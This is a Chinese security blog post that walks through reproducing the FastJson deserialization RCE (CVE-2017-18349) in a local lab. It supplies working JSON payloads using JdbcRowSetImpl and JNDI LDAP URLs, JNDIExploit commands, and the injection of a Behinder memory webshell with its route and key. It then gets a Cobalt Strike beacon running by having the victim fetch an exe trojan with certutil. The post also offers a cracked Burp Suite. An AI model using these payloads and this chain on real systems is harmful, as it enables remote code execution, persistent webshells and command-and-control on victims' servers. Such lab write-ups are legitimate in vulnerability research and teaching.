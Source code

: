#  FastJson-RCE (CVE-2017-18349) 漏洞复现   
原创 F0R  朱厌安全   2024-06-26 23:51  
  
0X01 环境搭建  
  
Java环境：JDK 8  
  
物理机环境：Windows 11  
  
Tomcat版本：8.5.0  
  
Maven版本：3.9.8  
  
IDEA版本：最新版本  
  
**漏洞验证工具**：burpsuite2024版本、JNDIExploit-1.4-SNAPSHOT.jar  (工具获取可发送关键字)  
  
**环境源码获取：公众号后台发送"****fastjson****"关键字即可**  
  
**burp2024版本破解版本获取：公众号后台发送"****burp2024****"关键字即可**  
  
**JNDIExploit-1.4工具获取：公众号后台发送"****jnditools1****"关键字即可**  
1. Idea打开源码文件夹，配置maven(上篇文章有讲)  
  
1. 配置jdk环境  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcvZiazMrtgS4mfDNNYFINcgKNjDr32rvLxajMn4XZichpqJTVDHTCJP5g/640?wx_fmt=png&from=appmsg "")  
1. 刷新maven  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcGicRcdm4EK1lrguSblZaicZHALconIP5IDsr0QYvWy21YpUZVLHYL5SQ/640?wx_fmt=png&from=appmsg "")  
1. 启动项目(这里我使用的8081端口，修改端口可以在  
application.properties文件修改)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcBmqcZwouQsHkw7Nq3nHeCgMA7vprw8dOplz9gbibXcTic3JZgW2mIfibA/640?wx_fmt=png&from=appmsg "")  
1. 启动成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmc3g51xe0RvL9QicGezIE5manwbGzy9A8Ct5kiafgYkM4KNrCrSmINFZtg/640?wx_fmt=png&from=appmsg "")  
# 0X02 漏洞复现  
  
打开burp进行抓包，发送到重发器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcgMIYnFkGdHKjcrgggouSKVvwS6tiaHicicqXVw4uaA6YtZrsTLX4H8ubw/640?wx_fmt=png&from=appmsg "")  
  
修改为POST请求方式  
  
构造json数据验证是否运行正常，这里需要注意，application/json、POST请求、Json请求体  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcNv0IrEEdZwJEZcKcV0O0AGfnHH6OXDfr85TCR0h7aQRvoB98Is9ghA/640?wx_fmt=png&from=appmsg "")  
  
运行正常，下面测试漏洞  
  
查看是否存在fastjson特征  
  
payload:  
```
{"b":{"@type": "java.lang.AutoCloseable","autoCommit":true}}
```  
  
  
可以看到 com.alibaba.fastjson 特征  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmc5IdggnZtFUtL1siatuww7zHic3F92akFfDwj5sjGW3V5SqoiadIGFsFCQ/640?wx_fmt=png&from=appmsg "")  
  
测试是否存在fastjson漏洞  
  
payload：  
```
{"a": {"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b": {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"exp","autoCommit":true}}
```  
  
  
这里使用到了JNDIExploit-1.4-SNAPSHOT.jar工具 (jdk8启动)  
  
命令：  
```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -u -i 127.0.0.1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmc3pIzE28cSIXoMYtyW48D3xJC4p2zMjEH9BDiarJkupITOyIicZUNMYTA/640?wx_fmt=png&from=appmsg "")  
  
具体参数是什么用处可以百度  
  
启动 JNDIExploit-1.4-SNAPSHOT.jar 工具  
  
命令：  
```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -
i 127.0.0.1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmchibxdbBNdDyiamY8iaiaicooeDbg9CufZmcO5zEXdFWxqLlLrMSHluhR83A/640?wx_fmt=png&from=appmsg "")  
  
使用工具提供payload：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcjPNqibeibcPQjVUVuCJU4ejj8WEFxCN5v0hyQmXcssm7cUPvsHIkFEicw/640?wx_fmt=png&from=appmsg "")  
```
ldap://127.0.0.1:1389/TomcatBypass/TomcatEcho
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmc7FtNeSdkV9oKnPj4Jjf4XmLSmafRbx5iap1IsF01P2w4OHkEWLYnRtQ/640?wx_fmt=png&from=appmsg "")  
```
{"a": {"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b": {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/TomcatBypass/TomcatEcho","autoCommit":true}}
```  
  
hander添加字段：cmd: whoami  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcCrX9wbMxILRF1hRKNpNB9K1MWTtRaoe10K7aicnicDnUwQG9shfcA1pg/640?wx_fmt=png&from=appmsg "")  
  
点击burp "send"发送数据包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcFyxqwRFyibwVHoT4LgxKa7waCByzeLZ4pTmIs9mWB4meNyg23gKPkqw/640?wx_fmt=png&from=appmsg "")  
  
漏洞利用完成  
# 0X03 注入冰蝎内存马  
  
使用jndi payload：  
```
ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell3
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcaXp8VGbyYdoibqVmbb8FHf2qk0ricPn9jbuP8ByVtdEjdlrCJ7FZxIJw/640?wx_fmt=png&from=appmsg "")  
  
发包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcKP2xm0o9DPndvk2mR2nduzjID6TRAZS1JHEBufKdLYxbR1UZNia4wSA/640?wx_fmt=png&from=appmsg "")  
  
冰蝎连接  路由：/ateam  key：pass1024  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcsp1kUXVCoxGk1RLYWouVZTwsmM6qCpnmHKicpN5aWchy3icA2EdvEU8A/640?wx_fmt=png&from=appmsg "")  
  
漏洞利用成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcRYt4MsfHRibydZRlpQGMcOJH1RxiaMEQpKBOCMmzoCLZ5DoFLA1r178w/640?wx_fmt=png&from=appmsg "")  
# 0X04  上线CS  
  
CS版本：4.7 (**注意**远程VPS使用版本和客户端要一致)  
  
远程VPS：本地虚拟机 kali  
  
本地虚拟机启动cs teamserver (模拟远程VPS端)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcc1O78SJdKMLeEZ4sGf8IHlRlZJicA6MrkiajskXOMewQ6ac40zX4xBSA/640?wx_fmt=png&from=appmsg "")  
  
本地物理机开启CS客户端（模拟攻击者机器）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcQjCtE5lYTe5Mm1CejlpyPnr55Vw4VHF1LDoJCof6Bu5VrXjic2jw8jQ/640?wx_fmt=png&from=appmsg "")  
  
新建监听器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmc97G8moAeeTXmMoSaS8JQvRVdM04lg0uDWTfDwVBgwSfc4JRtQEEa8A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmc1ArbicVAqaVcWUlWuVJpP2l6LUtmHibUWiaONJ9CJOVN4kpcYhsPwVgfg/640?wx_fmt=png&from=appmsg "")  
  
生成exe马  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcBEBBkHic216PuVwlgrFA9bGnBknC5qkATX7mKuc0MjEHa46ebHbcnag/640?wx_fmt=png&from=appmsg "")  
  
配置监听器，保存至桌面  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcNDWcPuPR8nlXM1nAfllk3xvy4Aaqgx5ibXFD2xheibqDYZ36uCwm0owg/640?wx_fmt=png&from=appmsg "")  
  
将生成exe马上传至远程VPS (这里我是kali虚拟机)，远程VPS启动http服务(这里是为了后面受害机器远程下载恶意文件)  
  
命令：  
```
python3 -m http.server 启用端口
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmc77jpVQw0MqnTCfS4BLVHO9icc8VfHcjj29UQx7ibV50Qj5u4icmIczHxQ/640?wx_fmt=png&from=appmsg "")  
  
执行Windows命令使受害机器远程下载恶意文件至指定目录  
  
命令：  
```
certutil -urlcache -split -f 远程地址 指定本地下载文件存放地址
```  
  
jndi工具的payload仍然为  
```
ldap://127.0.0.1:1389/TomcatBypass/TomcatEcho
```  
  
此时JNDI工具仍开启状态  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcxdvgicpicWB9eRoJDnYBDM9qQQSeNU1O7IibCFUQEupB8RxlKUU729AnA/640?wx_fmt=png&from=appmsg "")  
  
burp构造exp，发包，远程下载成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcG51IM1Tu6mgibqvibibNlzSxzvmRz5KFTsmBRILLOrTtRmaoHicj1yb0bg/640?wx_fmt=png&from=appmsg "")  
  
执行1.exe，上线CS  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmc6vYyh7XVqLWgQoEdwf7t59icNYln3uiaV4HK5akcU8TSETLmwSwfu5Ig/640?wx_fmt=png&from=appmsg "")  
  
返回CS，上线成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmcpQcic0sRINmkr9ERfaET78WqThebT4sq9tzjxUWHRbI5gQUK65TUfjw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dcfALm4W0M9AQDW2icgrqSNjU9KiclqMmc9HUEMmibxN65j2aib1icek64QicUl5xvSPcvCKWC6TibVdicYjicf2p1xs6tQ/640?wx_fmt=png&from=appmsg "")  
  
  
                                                              
   
梦想再多，努力实现就是了  
  
